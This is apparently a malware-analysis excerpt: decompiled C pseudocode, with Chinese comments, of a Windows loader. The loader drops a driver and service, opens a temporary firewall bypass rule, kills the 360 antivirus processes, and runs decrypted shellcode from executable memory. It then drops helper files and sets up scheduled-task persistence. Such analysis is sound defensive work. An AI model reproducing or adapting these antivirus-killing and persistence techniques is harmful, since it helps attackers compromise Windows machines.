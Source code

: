 ```
    if ( v2 )
    {
      memcpy(v2, &unk_180011BA0, 0x7826Cui64);
      memcpy(v5 + 489440, v3, 0xA88ui64);
      //解密
      LODWORD(v2) = sub_180004588(v3);
      if ( (_DWORD)v4 )
      {
        //在C:\\Windows\\system32\\drivers目录下创建一个驱动文件
        memset(FileName, 0, 0x208ui64);
        TickCount = GetTickCount();
        wsprintfW(FileName, L&#34;C:\\Windows\\system32\\drivers\\%d.tmp&#34;, TickCount);
        //创建一个服务
        memset(ServiceName, 0, 0x208ui64);
        v7 = GetTickCount();
        wsprintfW(ServiceName, L&#34;asv_%d&#34;, v7);
        id = 0i64;
        Size = 0i64;
        //查找ZhuDongFangYu.exe进程
        LODWORD(v8) = sub_180004C58(L&#34;ZhuDongFangYu.exe&#34;);
        if ( (_DWORD)v8 )
        {
          // 创建防火墙绕过规则
          sub_18000501C(&id, &Size);
          //写入驱动文件
          sub_180004D4C(FileName, &unk_180089E10, 54296i64);
          Sleep(0x64u);
          //安装服务
          sub_180004F38(FileName, ServiceName);
          //StartAddress用于杀死ZhuDongFangYu.exe进程和360tray.exe进程
          CreateThread(0i64, 0i64, StartAddress, (LPVOID)(unsignedint)v8, 0, 0i64);
          v8 = (unsignedint)sub_180004C58(L&#34;360tray.exe&#34;);
          CreateThread(0i64, 0i64, StartAddress, (LPVOID)v8, 0, 0i64);
          Sleep(0x64u);
          //删除防火墙规则
          sub_180005250(id, Size);
        }
        //
        LODWORD(dwSize) = 0;
        memcpy(&dwSize, Src, 4ui64);
        LODWORD(v2) = dwSize;
        if ( (_DWORD)dwSize )
        {
          v2 = (char *)VirtualAlloc(0i64, (unsignedint)dwSize, 0x1000u, 0x40u);
          v9 = (ULONG (__stdcall *)(PVOID))v2;
          if ( v2 )
          {
            memcpy(v2, Src + 4, (unsignedint)dwSize);
            CreateThread(0i64, 0i64, v9, v5, 0, 0i64);
            //释放3个辅助恶意文件
            memset(v16, 0, 0x208ui64);
            wsprintfW(v16, L&#34;%s\\%s&#34;, v3 + 2148, v3 + 2348);
            sub_180004D4C(v16, &unk_180097230, 119824i64);
            Sleep(0x64u);
            memset(v17, 0, 0x208ui64);
            wsprintfW(v17, L&#34;%s\\%s&#34;, v3 + 2148, v3 + 2448);
            sub_180004D4C(v17, &unk_1800B4640, 351744i64);
            Sleep(0x64u);
            memset(v18, 0, 0x208ui64);
            wsprintfW(v18, L&#34;%s\\%s&#34;, v3 + 2148, v3 + 2548);
            sub_180004D4C(v18, v5, 492140i64);
            Sleep(0x64u);
            //设置持久化（计划任务）
```